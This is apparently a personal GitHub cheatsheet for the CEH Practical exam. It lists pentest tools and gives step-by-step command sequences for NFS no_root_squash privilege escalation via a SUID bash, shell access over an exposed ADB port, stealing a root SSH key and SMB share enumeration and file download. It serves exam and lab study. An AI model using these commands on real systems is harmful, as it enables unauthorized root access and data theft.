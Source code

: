 # CEH_PRACTICAL
This my cheatsheet that i used to study for CEH_PRACTICAL
Tools
1.	Nmap/Zenmap
2.	Wireshark
3.	Metasploit
4.	Hydra
5.	Cryptool / BCTextEncoder
6.	Veracrypt
7.	Burp suite
8.	Hydra
9.	Hashes.com/HashMyfiles/HashCalc
10.	Snow steganography/OpenStego/Covert TCP
11.	SQL Injection / nslookup/sqlmap/nikto
12.	Android Debugging Bridge (adb)
# PRACTICAL TIME
https://github.com/dhabaleshwar/CEHPractical/blob/main/Everything%20You%20Need.md
https://github.com/CyberHackPr/CEH_PRACTICAL/pulls Click Here for Notes
**xfreerdp /u:[username] /p:[password] /v:[ip_address]** 
Exam RoadMap
1,2,8,11,12,16,17,18,20,7 (10 marks)  10,19,4,5,15,14,13,6,3,9  

**Priviledge Escalation**
**Misconfigured nfs shares**
**Victim machine log in to target or ssh into it**
1. root@ubuntu:~# Sudo apt-get update
2. root@ubuntu:~# Sudo apt install nfs-kernel-server
3. root@ubuntu:~# sudo nano etc/exports 
>> This is what you add the entry inside the exports file:  /home   *(rw,no_root_squash)
4. root@ubuntu:~# sudo /etc/init.d/nfs-kernel-server restart (you have to restart the server)
5. root@ubuntu:~#
**Attacker machine**
You should see port 2049 open after scanning 
1. attacker@parrot:~#sudo nmap -sV [IP]
2. Do this manually nfs enumerate 
3. attacker@parrot:~# apt-get install nfs-common 
4. attacker@parrot:~#showmount -e [IP Addrr]) or attacker@parrot:~#sudo nmap -sV --script=nfs-showmount [victim IP]
5. attacker@parrot:~#mkdir  /tmp/nfs
6. attacker@parrot:~#sudo mount -t nfs [IP]:/home  /tmp/nfs
7. attacker@parrot:~#cd  /tmp/nfs
8. attacker@parrot:~#sudo cp /bin/bash .
9. attacker@parrot:~#sudo chmod +s bash
10. attacker@parrot:~#ls -la bash (you can see all the privileges) 
11. ttacker@parrot:~#ssh ubuntu@[IP] (now we can ssh into our target machine) 
12. attacker@parrot:~#cd /home
13. attacker@parrot:~#ls -la
14. attacker@parrot:~#./bash -p 
15. id
16. whoami

Priviledge Escalation 2
Exploiting misconfigured NFS (port 2049)
1.	nmap -sV —p 2049 IP/Subnet
2.	sudo apt-get install nfs-common
3.	nmap -sV —script=nfs-showmount <Target_IP>
4.	check available mounts: showmount -e <Target_IP> -> we will see /home directory
5.	mkdir /tmp/nfs
6.	sudo mount -t nfs 10.10.1.9:/home /tmp/nfs
7.	cd /tmp/nfs
8.	sudo cp /bin/bash .
9.	sudo chmod +s bash -> it will be highlighted in red
10.	ls -la
11.	sudo df -h
12.	sudo chmod +s bash
after them, In another terminal:
	1. Access to target using SSH
	2. ./bash -p and we're root!
	3. cd /home
	4. ls -la
	5. Find the flag: find / -name "*.txt" -ls 2> /dev/null



**ADB Android Hacking** 
Perform deep scan on the elf files and obtain the last 4 digits of SHA 384 hash of the file with highest entropy value locate into android folder
1.	Scan adb port: nmap ip -sV -p 5555
2.	Connect adb: adb connect IP:5555
3.	Access mobile device: adb shell
4.	Elevate privilege using: sudo -i (if it is possile)
5.	pwd --> ls --> cd sdcard/Notifications/Scan --> ls --> cat secret.txt (If you can't find, check in others folders)
6.	Download files: adb pull /sdcard/Notifications/Scan Do it in another shell, without adb connection!
7.	We've three elf files, now we need to calculate entropy for each of them using this command: ent file.elf
8.	After selecting file.elf with highest entropy, we need to calculate hash of SHA 384: sha384sum file.elf and consider only the last 4 digits of the hash result.

Vertical Privilege escalation 
1. ssh smith@Ip –p 1337
2. sudo -L to check on users
3. cd /root then ls to see the .txt file, try to cat the file but permission is denied
4. then find the .ssh file 
5. then you cat id_rsa file key. Copy the key from beginning to end then nano id_rsa and paste the key
6. chmod 600 id_rsa  this give it root privileges 
7. as you are logged ,ssh root@ipaddrr –p 1336 –I id_rsa then you will have performed a vertical privilege escalation 

SMB Connection
1. smbclient -L <TARGET_IP> -N
2. smbclient -L <TARGET_IP> -U <USER>
3. smbclient //<TARGET_IP>/<USER> -U <USER>
4. smbclient //<TARGET_IP>/admin -U admin
5. smbclient //<TARGET_IP>/public -N #NULL Session
## SMBCLIENT
1. smbclient //<TARGET_IP>/share_name
2. help
3. ls
4. get <filename>

smbmap -u <USER> -p '<PW>' -H <TARGET_IP> --download 'C$\flag.txt'
